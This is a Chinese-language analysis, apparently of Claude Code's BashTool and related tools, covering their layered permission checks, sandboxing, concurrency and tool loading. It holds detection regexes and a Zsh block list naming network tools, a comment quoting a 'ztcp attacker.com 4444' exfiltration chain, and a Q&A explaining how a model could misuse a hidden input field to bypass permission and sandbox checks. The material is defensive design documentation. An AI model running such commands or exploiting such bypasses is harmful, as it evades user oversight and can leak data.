


# 执行类工具 — Claude Code 源码分析

> 模块路径：`src/tools/BashTool/`、`src/tools/REPLTool/`、`src/tools/PowerShellTool/`
> 核心职责：在受控环境中执行 Shell 命令，支持沙箱隔离、超时控制与流式输出
> 源码版本：v2.1.88

## 一、模块概述

执行类工具是 Claude Code 中风险最高、功能最强的一类工具，直接在用户系统上运行任意命令。三个工具覆盖不同运行时：

- **BashTool** — Unix/macOS/Linux Shell 命令执行，支持后台任务、沙箱、超时、流式输出
- **REPLTool** — 结构化的工具调用虚拟机（VM）上下文，将原始工具调用序列化执行，隐藏底层 Bash 等工具
- **PowerShellTool** — Windows PowerShell 命令执行，与 BashTool 功能对等，针对 Windows 环境优化

BashTool 是三者中最复杂的，拥有独立的安全检测层（`bashSecurity.ts`）、权限系统（`bashPermissions.ts`）、沙箱决策（`shouldUseSandbox.ts`）和语义分类（`commandSemantics.ts`）。整个 BashTool 安全子系统横跨 18 个文件，构成一个纵深防御体系。

## 二、架构设计

### 2.1 核心类/接口/函数

**`BashTool`** — 核心命令执行工具

输入模式包含 `command`、`timeout`（可选，最大值受配置限制）、`description`（供人类阅读的命令描述）、`run_in_background`（后台执行）、`dangerouslyDisableSandbox`（覆盖沙箱）。`_simulatedSedEdit` 是内部字段，从模型可见模式中剔除以防止权限绕过。

**`shouldUseSandbox(input)`** — 沙箱决策函数

检查 `SandboxManager.isSandboxingEnabled()` → 用户 `dangerouslyDisableSandbox` 覆盖 → 用户配置的排除命令列表。采用固定点迭代（fixed-point iteration）处理带环境变量和包装命令的复合命令（如 `timeout 300 FOO=bar bazel run`），确保排除规则匹配到实际命令而非包装器。

**`isSearchOrReadBashCommand(command)`** — 命令语义分类

解析命令管道各段，判断是否全部为搜索/读取/列目录命令（`grep`、`cat`、`ls` 等）。用于 UI 折叠显示：搜索或读取命令调用时界面折叠显示，减少视觉干扰。语义中性命令（`echo`、`printf`）在任意位置都被跳过。

**`bashSecurity.ts`** — 命令安全分析模块

维护危险模式正则表达式列表（`$()` 命令替换、`<()` 进程替换、Zsh `=cmd` 扩展等）和危险命令集合（`zmodload`、`emulate`、`sysopen` 等 Zsh 模块命令），在权限检查阶段过滤高风险命令。

**`getReplPrimitiveTools()`** — REPL 原始工具列表

`REPLTool/primitiveTools.ts` 导出的懒加载函数，返回 REPL 虚拟机上下文中可访问的底层工具（FileRead/FileWrite/FileEdit/GlobTool/GrepTool/BashTool/NotebookEdit/AgentTool）。

### 2.2 模块依赖关系图

```
BashTool.tsx
    │
    ├─ bashSecurity.ts          ← 危险模式检测（AST 级别）
    ├─ bashPermissions.ts       ← 权限规则匹配（前缀/精确/通配符）
    ├─ shouldUseSandbox.ts      ← 沙箱决策
    ├─ commandSemantics.ts      ← 命令分类（搜索/读取/静默）
    ├─ pathValidation.ts        ← 路径访问验证
    ├─ readOnlyValidation.ts    ← 只读模式约束
    ├─ sedEditParser.ts         ← sed 编辑命令特殊处理
    ├─ modeValidation.ts        ← 执行模式约束
    │
    ├─ utils/bash/ast.js        ← Shell AST 解析（tree-sitter）
    ├─ utils/bash/commands.js   ← 命令分割工具
    ├─ utils/sandbox/           ← 沙箱适配器
    ├─ tasks/LocalShellTask/    ← 本地 Shell 任务管理
    │
    └─ shared/gitOperationTracking.ts  ← Git 操作检测

REPLTool/
    ├─ primitiveTools.ts  ← 底层工具列表（懒加载）
    └─ constants.ts       ← REPL 常量定义

PowerShellTool.tsx
    ├─ powershellSecurity.ts    ← PowerShell 安全检测
    ├─ powershellPermissions.ts ← PS 权限规则
    └─ (复用部分 BashTool 共享逻辑)
```

### 2.3 关键数据流

**BashTool 命令执行流程：**

```
输入: { command, timeout?, description?, run_in_background?, dangerouslyDisableSandbox? }
  ↓
validateInput()
  ├─ checkReadOnlyConstraints()  ← 只读模式拒绝写操作
  ├─ pathValidation()            ← 路径访问约束
  └─ modeValidation()            ← 执行模式约束
  ↓
checkPermissions()
  ├─ bashToolHasPermission()     ← 前缀/通配符规则匹配
  └─ parseForSecurity()          ← AST 级安全分析
  ↓
call()
  ├─ shouldUseSandbox()          ← 沙箱决策
  ├─ run_in_background?          ← 后台任务路径
  │   └─ spawnShellTask()        ← 异步后台执行
  └─ 前台执行路径
      ├─ exec() / SandboxManager.exec()
      ├─ ASSISTANT_BLOCKING_BUDGET_MS 检查  ← 15s 后自动后台化
      └─ 流式输出收集（EndTruncatingAccumulator）
  ↓
后处理
  ├─ trackGitOperations()        ← Git 操作追踪
  ├─ resetCwdIfOutsideProject()  ← 工作目录归位
  └─ isImageOutput() → resizeShellImageOutput()  ← 图像输出处理
```

## 三、BashTool 8 层安全检查体系

BashTool 的安全设计是 Claude Code 中工程密度最高的子系统。8 层检查按顺序叠加，形成纵深防御（Defense in Depth）。

### 3.1 8 层安全检查总览图

```
用户/模型提交命令
        │
        ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 1：命令长度限制                                      │
│  command.length > MAX_COMMAND_LENGTH → 直接拒绝             │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 2：只读命令白名单检查（readOnlyValidation.ts）        │
│  当处于只读模式时，命令必须在白名单内                         │
│  白名单粒度：命令名 + 每个 flag 的允许值类型                  │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 3：bash 安全分析（bashSecurity.ts）                  │
│  25+ 种危险模式正则匹配                                      │
│  命令替换 / 进程替换 / Zsh 专属攻击面                        │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 4：复合命令 AST 解析（tree-sitter）                  │
│  将整条命令解析为语法树                                      │
│  提取所有 SimpleCommand 节点                                 │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 5：子命令数量限制                                    │
│  子命令数 > 50 → 要求用户确认（防 ReDoS / 事件循环饥饿）     │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 6：每个子命令独立权限检查                            │
│  对 AST 中每个 SimpleCommand 分别执行 bashToolHasPermission  │
│  任何一个子命令被 deny → 整条命令被 deny                    │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 7：沙箱限制（SandboxManager）                        │
│  操作系统层面限制文件系统、网络、Unix socket 访问             │
│  macOS: sandbox-exec (SBPL)                                │
│  Linux: seccomp/namespace 隔离                             │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
┌───────────────────────────────────────────────────────────┐
│  Layer 8：工具级 checkPermissions 回调                     │
│  最终用户确认（ask）/ 策略拒绝（deny）/ 自动通过（allow）    │
└───────────────────────────┬───────────────────────────────┘
                            │ 通过
                            ▼
                      命令实际执行
```



### 3.2 Layer 2：只读白名单的 flag 级验证

这是整个安全体系中工程精度最高的部分。白名单不只检查命令名，还对每个 flag 定义允许的值类型。

**`xargs -I` 与 `-i` 的细微差别（`src/tools/BashTool/readOnlyValidation.ts`）：**

```typescript
// xargs 的白名单定义示例：flag 粒度的值类型约束
// -I 要求显式替换字符串（可控），-i 的 GNU 实现允许可选参数（危险）
const XARGS_ALLOWED_FLAGS: FlagSpec = {
  '-I': { type: 'string' },   // 必须提供替换字符串，行为可预测
  '-i': 'deny',               // GNU xargs -i 有可选参数语义，可执行任意命令
  '-n': { type: 'number' },   // 每次执行的参数数量，纯数字
  '-P': { type: 'number' },   // 并行进程数，纯数字
  '-d': { type: 'string' },   // 分隔符，字符串
}
```

**允许的值类型体系：**

| 类型标记     | 含义                       | 示例                      |
|------------|--------------------------|--------------------------|
| `'none'`   | flag 不带参数              | `ls -l`（`-l` 无参数）     |
| `'number'` | 参数必须是纯数字             | `head -n 10`             |
| `'string'` | 参数是任意字符串（但限于该 flag）| `grep -e pattern`        |
| 特定值枚举   | 参数只能是预定义值之一         | `sort -t ','`（只允许单字符）|
| `'deny'`   | 禁止使用该 flag             | `xargs -i`（见上）         |

这种精度的意义在于：仅检查命令名会允许 `cat --exec=/bin/sh`（假设的危险 flag），而 flag 级检查在白名单定义时就封堵了所有非预期用法。

### 3.3 Layer 3：bashSecurity.ts 的 25+ 种检查

`bashSecurity.ts` 是一个专门的安全分析模块，维护危险模式的正则表达式列表和黑名单集合。

**命令注入检测模式分类（`src/tools/BashTool/bashSecurity.ts`）：**

```typescript
// 命令替换：允许嵌套执行任意命令
const COMMAND_SUBSTITUTION_PATTERNS = [
  /\$\(.*\)/s,   // $(cmd) 形式
  /`[^`]+`/,     // `cmd` 反引号形式
]

// 进程替换：将命令输出作为文件描述符
const PROCESS_SUBSTITUTION_PATTERNS = [
  /<\([^)]+\)/,  // <(cmd) 输入进程替换
  />\([^)]+\)/,  // >(cmd) 输出进程替换
]

// 参数扩展中的命令执行
const DANGEROUS_PARAM_EXPANSION = [
  /\$\{[^}]*\([^}]*\)[^}]*\}/,  // ${var:-$(cmd)} 嵌套替换
]

// Unicode 空白字符（IFS 注入的变体）
const UNICODE_WHITESPACE = /[\u0085\u00a0\u1680\u2000-\u200a\u2028\u2029\u202f\u205f\u3000]/
// 控制字符（用于终端转义序列注入）
const CONTROL_CHARS = /[\x00-\x08\x0b\x0c\x0e-\x1f\x7f]/
```

**Zsh 专属攻击面（`src/tools/BashTool/bashSecurity.ts`）：**

```typescript
// Zsh 危险命令黑名单——阻止模块级攻击
const ZSH_DANGEROUS_COMMANDS = new Set([
  'zmodload',   // 加载 zsh 模块（所有 zsh 模块攻击的入口）
  'emulate',    // 改变 zsh 行为模式，等价于 eval
  'sysopen',    // zsh/system 模块：精细文件描述符控制
  'syswrite',   // 直接写文件描述符，绕过 shell 重定向限制
  'sysread',    // 直接读文件描述符
  'ztcp',       // zsh/net/tcp 模块：建立 TCP 连接（网络渗出）
  'zftp',       // zsh/zftp 模块：FTP 客户端
])
// zmodload zsh/net/tcp && ztcp attacker.com 4444 这类攻击链
// 通过黑名单中任意一个命令即可斩断
```

**25+ 种检查的完整分类：**

| 检查类别           | 数量 | 典型模式                              |
|-------------------|-----|--------------------------------------|
| 命令替换           | 2   | `$()`, 反引号                         |
| 进程替换           | 2   | `<()`, `>()`                         |
| 参数扩展嵌套        | 3   | `${:-$(cmd)}` 等变体                  |
| Zsh 模块命令       | 7+  | `zmodload`, `ztcp` 等                |
| Zsh 语法特性       | 3   | `=cmd` 全局扩展, `{VARNAME}` 间接引用  |
| 控制字符/Unicode   | 2   | 零宽字符, ANSI 转义序列                |
| 危险重定向         | 2   | `>&`, 文件描述符复制                  |
| 间接变量引用        | 2   | `${!var}` bash 间接引用               |
| 其他              | 4+  | `eval`, `source`, `exec` 等           |

### 3.4 Layer 4：tree-sitter AST 复合命令解析

这是整个安全体系中最关键的架构决策之一。

**为什么需要 AST 而不是正则表达式（`src/utils/bash/ast.js`）：**

权限规则系统（如 `Bash(cd:*)` 前缀规则）设计为匹配单条命令。对于 `cd /path && python3 evil.py`，简单字符串匹配 `cd:` 前缀会匹配整条命令，但实际上 `python3 evil.py` 完全不受 `cd:*` 规则约束。

tree-sitter 解析 Shell AST 后，可以精确提取每个 `SimpleCommand` 节点：

```
cd /path && python3 evil.py
│
└─ Program
   └─ list
      ├─ SimpleCommand: [cd, /path]    ← 匹配 Bash(cd:*) 规则
      └─ SimpleCommand: [python3, evil.py]  ← 需要独立权限检查
```

**子命令隔离流程（`src/tools/BashTool/bashPermissions.ts`）：**

```typescript
// 伪代码展示复合命令权限检查逻辑
async function checkCompoundCommand(command: string, rules: PermissionRules) {
  const ast = parseShellAST(command)          // tree-sitter 解析
  const subCommands = extractSimpleCommands(ast)  // 提取所有 SimpleCommand

  if (subCommands.length > MAX_SUBCOMMANDS) {  // Layer 5: 数量上限 50
    return { action: 'ask', reason: 'too_many_subcommands' }
  }

  for (const sub of subCommands) {            // Layer 6: 逐个检查
    const result = bashToolHasPermission(sub, rules)
    if (result.action === 'deny') return result  // 任一 deny 即终止
  }
  return { action: 'allow' }
}
```

**子命令数量上限 50 的双重意义：**

1. **防 ReDoS**：某些权限规则使用正则表达式匹配命令前缀，50 个子命令意味着最多 50 次正则执行，防止精心构造的命令导致正则引擎指数级回溯。
2. **防事件循环饥饿**：JavaScript 是单线程运行时，对 50+ 个子命令的遍历检查会阻塞事件循环，影响 UI 响应性（Claude Code 用 React 渲染 UI）。

### 3.5 Layer 7：SandboxManager 沙箱机制

沙箱是操作系统层面的最后防线，即使命令通过了前 6 层检查，沙箱仍能限制其实际能力。

**SandboxManager 的限制维度：**

```
沙箱限制
├─ 文件系统访问
│   ├─ 允许读取路径列表（项目目录、HOME 只读区域）
│   ├─ 允许写入路径列表（项目目录、临时目录）
│   └─ 拒绝其他所有路径（/etc、/usr/local 等系统目录）
│
├─ 网络访问
│   ├─ 允许主机列表（package registry、CDN 等）
│   └─ 拒绝任意出站连接（防止数据渗出）
│
└─ Unix Socket
    ├─ 允许特定 socket（Docker daemon、本地服务）
    └─ 拒绝其他 socket（防止通过 IPC 逃逸）
```

**沙箱是"安全网"而非"免死金牌"：**

沙箱内命令即使没有匹配任何 allow 规则也可以执行（安全网语义），但 `deny` 和 `ask` 规则仍然优先。这意味着：
- 沙箱不会绕过权限规则系统
- 沙箱是权限规则漏网时的最后兜底
- 两者独立工作，防御层次不重叠

**平台差异（`src/utils/sandbox/`）：**

| 平台    | 沙箱实现            | 隔离粒度                |
|--------|-------------------|------------------------|
| macOS  | `sandbox-exec`     | SBPL 配置文件，系统调用级 |
| Linux  | seccomp + namespace| 系统调用过滤 + 文件系统隔离|
| Windows| PowerShell 受限模式  | 执行策略 + AppContainer  |

## 四、ToolUseContext 与工具运行时环境

每次工具调用，框架都会传入一个 `ToolUseContext` 对象，携带该次调用的完整运行时状态。理解这个对象是理解 Claude Code 工具系统运行机制的关键。

### 4.1 ToolUseContext 核心字段

```typescript
// src/types/ToolUseContext.ts（简化）
interface ToolUseContext {
  // 文件读取状态跟踪（不变量保障）
  readFileState: ReadFileStateTracker

  // 用户中断信号
  abortController: AbortController

  // 实时进度条渲染回调
  setToolJSX: (jsx: React.ReactNode) => void

  // token 预算控制（防止工具结果消耗过多上下文）
  contentReplacementState: ContentReplacementState

  // 上下文修改机制（仅对非并发安全工具生效）
  contextModifier: ContextModifier | null
}
```

### 4.2 readFileState：不能编辑未读文件的不变量

`readFileState` 跟踪会话中已被读取的文件集合，是 FileEditTool/FileWriteTool 的前置守卫。

**设计理由：**

若模型在未读取文件内容的情况下直接编辑文件，`old_string` 参数只能是模型凭空"猜测"的内容，极易导致误匹配或静默数据损坏。强制"先读后写"不变量，确保模型对文件内容有准确认知后才能执行精确替换。

```
读文件（FileReadTool）
    │
    ▼
readFileState.markRead(filePath)  ← 记录已读状态
    │
    ▼
编辑文件（FileEditTool）
    │
    ├─ readFileState.hasBeenRead(filePath)?
    │       NO  → 拒绝，要求先读取文件
    │       YES → 允许编辑
```

**例外情况：**

- `FileWriteTool`（全量写入）不受此限制，因为它不依赖现有文件内容
- BashTool 的 `_simulatedSedEdit` 路径绕过了 readFileState 检查，这正是该字段必须从模型可见模式中隐藏的原因

### 4.3 abortController：BashTool 长命令的用户中断支持

`abortController` 是标准 Web API `AbortController` 的实例，信号通过 `ToolUseContext` 传递给工具的 `call()` 方法。

**BashTool 中的中断处理：**

```typescript
// src/tools/BashTool/BashTool.tsx（示意）
async function call(input, context) {
  const { signal } = context.abortController  // 获取中止信号

  // 将信号传递给子进程启动器
  const task = spawnShellTask(input.command, { signal })

  // 监听中止事件，及时终止子进程
  signal.addEventListener('abort', () => {
    task.kill('SIGTERM')  // 先发 SIGTERM，给命令清理机会
    setTimeout(() => task.kill('SIGKILL'), 3000)  // 3s 后强杀
  })

  return await task.result()
}
```

**用户中断 vs 超时中断的区别：**

| 场景       | 触发源                   | 信号          | UI 表现                  |
|-----------|------------------------|-------------|-------------------------|
| 用户按 Esc  | UI 层 → abortController | `abort`     | 工具结果标记为 "Interrupted" |
| 超时        | 内部 timeout 机制        | 独立计时器    | 工具结果标记为 "Timed out"   |
| 自动后台化  | 15s 阈值触发             | 无（转移任务）| 显示 BackgroundHint      |

### 4.4 setToolJSX：实时进度条渲染回调

`setToolJSX` 允许工具在执行期间动态更新 UI，而无需等到 `call()` 返回。

**BashTool 中的流式输出渲染：**

```typescript
// 每收到新的 stdout 数据块，立即更新 React 状态
for await (const chunk of task.stdout) {
  outputBuffer += chunk
  context.setToolJSX(
    <BashOutputPreview output={outputBuffer} isRunning={true} />
  )
}
// 完成后关闭 isRunning 状态
context.setToolJSX(
  <BashOutputPreview output={outputBuffer} isRunning={false} />
)
```

这使得用户能看到命令的实时输出（如 `npm install` 的安装进度），而不是等待整个命令完成后才显示结果。`setToolJSX` 是工具与 React 渲染层之间的唯一通信接口，解耦了执行逻辑与 UI 展示。

### 4.5 contentReplacementState：token 预算控制

工具结果会被添加到对话上下文中，传给下一次 LLM 请求。若工具返回超大输出（如读取了一个 10 万行的日志文件），会消耗大量 token 预算，甚至导致上下文溢出。

`contentReplacementState` 实现了工具结果的"压缩替换"机制：

```
工具调用 → 生成结果
                │
                ▼
         结果大小 > 阈值?
              NO  → 直接添加到上下文
              YES → contentReplacementState.replace(toolUseId, truncatedResult)
                         │
                         ▼
                  原始完整结果写入 toolResultStorage（磁盘）
                  上下文中只保留截断版本 + 引用路径
                  后续 API 请求不重复传输全量内容
```

**与 EndTruncatingAccumulator 的协作：**

- `EndTruncatingAccumulator` 控制单次输出的内存上限（防 OOM）
- `contentReplacementState` 控制历史上下文中的 token 预算（防上下文溢出）
- 两者独立工作，前者是实时保护，后者是历史管理

### 4.6 contextModifier：上下文修改机制

`contextModifier` 允许工具在执行完成后修改对话历史，但有一个严格限制：**只对非并发安全（non-concurrency-safe）工具生效**。

并发安全工具（`isConcurrencySafe = true`）可能多个同时运行，修改共享的对话历史会导致竞态条件（race condition）。因此框架强制：并发安全工具的 `contextModifier` 始终为 `null`。

## 五、isConcurrencySafe 的 Fail-Closed 原则

### 5.1 并发安全标记

每个工具都有一个 `isConcurrencySafe` 布尔属性，决定该工具是否可以与其他工具并行执行。

```typescript
// 并发安全工具（可并行）：只读、无状态副作用
const GrepTool   = { isConcurrencySafe: true, ... }
const GlobTool   = { isConcurrencySafe: true, ... }
const FileReadTool = { isConcurrencySafe: true, ... }

// 非并发安全工具（串行）：有写副作用或需要维护状态一致性
const BashTool   = { isConcurrencySafe: false, ... }
const FileEditTool = { isConcurrencySafe: false, ... }
const FileWriteTool = { isConcurrencySafe: false, ... }
```

### 5.2 Fail-Closed 原则

当工具没有显式定义 `isConcurrencySafe` 时（如第三方 MCP 工具），框架默认为 `false`（串行执行）。

这是 fail-closed（失败关闭）原则的直接应用：

```
isConcurrencySafe 未定义
        │
        ▼
    默认 = false（串行）← fail-closed
        │
   串行执行，性能损失
   但不会产生竞态条件

对比 fail-open：
isConcurrencySafe 未定义
        │
        ▼
    默认 = true（并行）← fail-open（危险！）
        │
   可能并发执行有副作用的工具
   → 文件写入竞态、状态不一致
```

**实际影响：**

MCP 工具（动态注册，框架不了解其语义）全部以串行方式执行。这会降低多工具并发场景的性能，但避免了因工具实现者未声明并发安全性导致的数据损坏。这是一个正确的工程权衡：**宁可慢，不可错**。

### 5.3 并发调度的分区模型

当一个对话步骤中模型返回多个工具调用时，调度器将它们分成并发安全和非并发安全两组：

```
模型返回 5 个工具调用：
  [GrepTool, FileReadTool, BashTool, GlobTool, FileEditTool]
                │
                ▼
        并发调度器分区
                │
    ┌───────────┴───────────┐
    │                       │
并发安全工具分区          非并发安全工具队列
┌──────────────────┐    ┌──────────────────┐
│  GrepTool        │    │  BashTool        │ ← 串行 1
│  FileReadTool    │    │  FileEditTool    │ ← 串行 2
│  GlobTool        │    └──────────────────┘
└──────────────────┘
    ↓ 并行执行                ↓ 顺序执行
    同时运行 3 个              先执行 BashTool，完成后再执行 FileEditTool
```

**contextModifier 为何只对非并发安全工具生效：**

并发安全工具并行执行，若每个都能修改上下文，会产生：
- 修改顺序不确定（非决定性行为）
- 多个工具同时追加内容（写冲突）
- 一个工具的 contextModifier 覆盖另一个工具的结果

因此框架在并发安全工具的 ToolUseContext 中注入 `contextModifier = null`，在类型层面阻止这类操作。



## 六、工具注册的 3 种加载策略

Claude Code 中工具不是统一静态注册的，而是根据环境、功能开关和运行时发现动态组合。

### 6.1 策略一：静态导入（核心工具）

核心工具（BashTool、FileReadTool 等）在主模块初始化时静态导入，始终可用：

```typescript
// src/tools/index.ts（简化）
import { BashTool } from './BashTool/BashTool'
import { FileReadTool } from './FileReadTool/FileReadTool'
import { FileEditTool } from './FileEditTool/FileEditTool'
// ... 其他核心工具

export const CORE_TOOLS = [BashTool, FileReadTool, FileEditTool, ...]
```

特点：无条件加载，打包时始终包含在 bundle 中，无运行时发现开销。

### 6.2 策略二：Feature Gate（Bun feature() 宏，编译时 DCE）

某些工具通过 Bun 的 `feature()` 宏进行编译时特性开关。当特性未启用时，编译器通过死代码消除（Dead Code Elimination, DCE）将整个工具模块从 bundle 中移除。

```typescript
// Bun feature() 宏用法示例
// src/tools/NotebookTool/NotebookTool.tsx
if (feature('NOTEBOOK_SUPPORT')) {
  // 整个 if 块在 NOTEBOOK_SUPPORT=false 时被 DCE 移除
  // bundle 中不存在任何 NotebookTool 相关代码
  registerTool(NotebookTool)
}
```

**与运行时 feature flag 的对比：**

| 维度       | 编译时 DCE (Bun feature())     | 运行时 feature flag            |
|-----------|-------------------------------|-------------------------------|
| 包体积     | 未启用的功能不增加 bundle 大小   | 所有代码都在 bundle 中          |
| 条件改变   | 需要重新编译                   | 重启即可生效                   |
| 安全性     | 未启用代码完全不存在，无攻击面   | 代码存在，只是不执行            |
| 适用场景   | 平台特有功能（如 Notebook 仅在 Jupyter 环境）| 用户可动态切换的功能  |

### 6.3 策略三：动态 MCP 工具（运行时发现）

MCP（Model Context Protocol）工具在运行时通过协议发现，框架不预先知道其存在：

```
Claude Code 启动
      │
      ▼
MCPManager 初始化
      │
      ▼
连接配置的 MCP servers（stdio / HTTP / SSE）
      │
      ▼
tools/list 请求 → 获取工具列表
      │
      ▼
动态创建 MCPTool 包装器（每个远程工具一个实例）
      │
      ▼
注入 isConcurrencySafe = false（fail-closed）
      │
      ▼
合并到可用工具列表
```

**MCP 工具的限制：**

- 不支持 `setToolJSX`（工具在远程进程中运行）
- `contextModifier` 始终为 null（非并发安全 + 远程执行）
- 无法参与 `readFileState` 的文件读取跟踪
- `abortController` 信号通过协议转发（可能有延迟）

### 6.4 三种策略的对比

```
工具类型            加载时机    DCE   isConcurrencySafe    contextModifier
──────────────────────────────────────────────────────────────────────────
核心工具            模块初始化  N/A   工具自定义             工具自定义
Feature Gate 工具   编译时决定  是    工具自定义             工具自定义
MCP 工具            运行时发现  N/A   强制 false（fail-closed）强制 null
```

## 七、核心实现走读

### 7.1 关键流程

**沙箱决策的固定点迭代：**

`containsExcludedCommand()` 处理带环境变量前缀和安全包装器的复合命令。对 `FOO=bar timeout 300 bazel run` 这样的命令，单次剥离可能失效（先剥离 env var 得到 `timeout 300 bazel run`，还需再剥离包装器）。固定点迭代反复应用 `stripAllLeadingEnvVars()` 和 `stripSafeWrappers()`，直到没有新候选产生，确保最终得到实际命令 `bazel run` 进行规则匹配。

**自动后台化机制：**

在 Assistant 模式下，前台 Bash 命令超过 `ASSISTANT_BLOCKING_BUDGET_MS = 15,000ms` 后自动切换为后台任务（`backgroundExistingForegroundTask()`）。避免了长时间运行的命令（如 `npm install`、`cargo build`）阻塞主循环。自动后台化会设置 `assistantAutoBackgrounded: true` 标志，UI 展示时显示 BackgroundHint 提示用户命令已转为后台。

**REPL 工具的定位：**

REPLTool 不直接执行命令，而是作为一个虚拟机层：当启用 REPL 模式时，底层的 FileRead/FileEdit/BashTool 等工具从模型可见工具列表中移除（`REPL_ONLY_TOOLS`），模型通过 REPLTool 的结构化调用接口操作，REPLTool 在内部顺序执行底层工具。`getReplPrimitiveTools()` 采用懒加载避免模块初始化循环依赖（`collapseReadSearch → primitiveTools → FileReadTool → ...`）。

### 7.2 重要源码片段

**BashTool 输入模式（内部字段隐藏）（`src/tools/BashTool/BashTool.tsx`）**

```typescript
// _simulatedSedEdit 从模型可见模式中剔除
// 若暴露给模型，其可以构造 innocuous 命令配合任意文件写入绕过权限
const inputSchema = lazySchema(() =>
  isBackgroundTasksDisabled
    ? fullInputSchema().omit({ run_in_background: true, _simulatedSedEdit: true })
    : fullInputSchema().omit({ _simulatedSedEdit: true })
)
```

**沙箱决策入口（`src/tools/BashTool/shouldUseSandbox.ts`）**

```typescript
export function shouldUseSandbox(input: Partial<SandboxInput>): boolean {
  if (!SandboxManager.isSandboxingEnabled()) return false
  // 用户明确禁用沙箱且策略允许时放行
  if (input.dangerouslyDisableSandbox && SandboxManager.areUnsandboxedCommandsAllowed())
    return false
  if (!input.command) return false
  // 排除用户配置的例外命令（非安全边界，仅便利性功能）
  if (containsExcludedCommand(input.command)) return false
  return true
}
```

**Zsh 危险命令阻止（`src/tools/BashTool/bashSecurity.ts`）**

```typescript
// 阻止 zmodload：通往模块攻击的大门
// zsh/mapfile → 隐式文件读写；zsh/net/tcp → 网络渗出
const ZSH_DANGEROUS_COMMANDS = new Set([
  'zmodload',   // 模块加载（所有 zsh 模块攻击的入口）
  'emulate',    // 等价于 eval，执行任意代码
  'sysopen',    // zsh/system 模块：精细文件描述符控制
  'ztcp',       // zsh/net/tcp 模块：网络渗出
])
```

**命令语义分类（`src/tools/BashTool/BashTool.tsx`）**

```typescript
// 纯输出/状态命令，不影响管道的读取/搜索性质
const BASH_SEMANTIC_NEUTRAL_COMMANDS = new Set([
  'echo', 'printf', 'true', 'false',
  ':' // bash 空操作
])

// 有效但通常无 stdout 的命令（显示"Done"而非"(No output)"）
const BASH_SILENT_COMMANDS = new Set([
  'mv', 'cp', 'rm', 'mkdir', 'chmod', 'touch', 'ln', ...
])
```

### 7.3 设计模式分析

**门面模式（Facade）**

BashTool 是复杂命令执行子系统的门面，对模型隐藏了沙箱决策、安全检测、后台任务调度、输出截断、图像处理等实现细节，提供统一的 `{ command, timeout, run_in_background }` 接口。

**责任链模式（Chain of Responsibility）**

8 层安全检查是完整的责任链：`checkReadOnlyConstraints` → `pathValidation` → `bashSecurity` → `AST解析` → `子命令数量检查` → `子命令权限检查` → `沙箱决策` → `工具级回调`，每个处理者独立判断，任何一环失败即终止链并返回拒绝。

**适配器模式（Adapter）**

`SandboxManager` 是沙箱适配器，屏蔽不同平台沙箱实现（macOS `sandbox-exec`、Linux seccomp、无沙箱环境）的差异，提供统一的 `exec()` 接口。

**策略模式（Strategy）**

工具注册的三种加载策略（静态/Feature Gate/MCP 动态发现）是策略模式的应用，同一个"工具集合"接口由三种不同的加载策略实现，框架调用时无需感知具体加载方式。

## 八、高频面试 Q&A

### 设计决策题

**Q1：为什么 `_simulatedSedEdit` 要从模型可见模式中剔除？**

A：安全边界设计。`_simulatedSedEdit` 是 sed 命令预览批准流程的内部字段——用户在 UI 批准 sed 编辑预览后，系统填入预计算的文件内容，跳过实际 sed 执行。若模型能看到并使用这个字段，可以构造一个外观无害的命令（如 `echo hello`），同时附带任意的 `_simulatedSedEdit.newContent`，绕过沙箱和权限检查直接写入任意文件内容。这是典型的"将内部状态泄露给外部参与者"的安全漏洞。

**Q2：`ASSISTANT_BLOCKING_BUDGET_MS = 15,000ms` 的自动后台化对用户体验有什么影响？**

A：平衡了"AI 等待" vs "用户体验"。在助手模式（assistant mode）下，如果 AI 触发的命令（如 `npm install`）在前台运行 15 秒以上，主循环被阻塞，AI 无法响应用户的其他操作，也无法处理工具调用并发。自动后台化后，AI 可以继续其他工作，命令完成时通过通知机制告知 AI。代价是用户需要理解后台任务的概念，UI 需要专门显示 BackgroundHint 提示。`sleep` 命令被明确排除在自动后台化之外（`DISALLOWED_AUTO_BACKGROUND_COMMANDS`），因为 sleep 的语义就是"等待"。

**Q3：为什么 isConcurrencySafe 未定义时默认为 false 而不是 true？**

A：这是 fail-closed 原则的体现。fail-open（默认并行）意味着第三方 MCP 工具如果忘记声明 `isConcurrencySafe: false`，就可能被并发执行，导致文件竞态写入、状态机乱序等难以调试的问题。fail-closed（默认串行）的代价是性能损失（本可并行的工具被串行执行），但不会产生正确性问题。在安全与性能的权衡中，Claude Code 选择安全优先：宁可慢，不可错。

### 原理分析题

